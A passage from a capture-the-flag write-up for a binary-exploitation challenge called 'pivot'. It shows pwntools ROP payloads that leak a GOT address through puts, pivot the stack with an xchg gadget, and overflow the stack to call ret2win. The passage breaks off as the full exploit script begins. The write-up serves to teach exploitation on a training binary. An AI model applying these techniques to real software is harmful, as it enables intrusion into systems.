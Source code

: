 This can be done with a debugger, or some kind of reverse engineering tool like ghidra as well.
## Payload 1
Payload 1 is supposed to populate the address of the got for the "foothold_function", and then leak it using puts.
Finally, it redirects back to main, in order to actually finish the exploit.
This looks like:
```python
    payload_1 = pwn.flat(
        pwn.p64(gadgets["foothold_function@plt"]),
        pwn.p64(gadgets["pop_rdi_ret"]),
        pwn.p64(gadgets["foothold_function@got"]),
        pwn.p64(gadgets["puts@plt"]),
        pwn.p64(gadgets["main"]),
        b"\n"
    ) 
```
In simple terms this calls the "foothold_function", and then leaks the new address by calling puts with the argument of that address.
Then it just calls "main".
## Payload 2
This one overflows the stack, and then pivots to the address containing the first payload:
```python
    payload_2 = pwn.flat(
        b"A"*padding,
        pwn.p64(gadgets["pop_rax_ret"]),
        pwn.p64(int(leak.strip(), 16)),
        pwn.p64(gadgets["xchg_rsp_rax"])
    )
```
## Payload 3
This payload doesn't do anything:
```python
    payload_3 = pwn.flat(
        pwn.asm('nop'),
        b"\n"
    )
```
## Payload 4
This payload smashes the stack, and then calls the "ret2win" function:
```python
    payload_4 = pwn.flat(
        b"A"*padding,
        pwn.p64(pwn.u64(leak_foothold) + lib_got_offset)
    )
```
# Full Solution
Full script which actually builds the payloads using the leaks.
## Full Exploit Script
```python
#!/usr/bin/python3
import pwn
import sys
import time
binary = "pivot"
pwn.context.binary = binary
pwn.context.encoding = "latin"

'''
```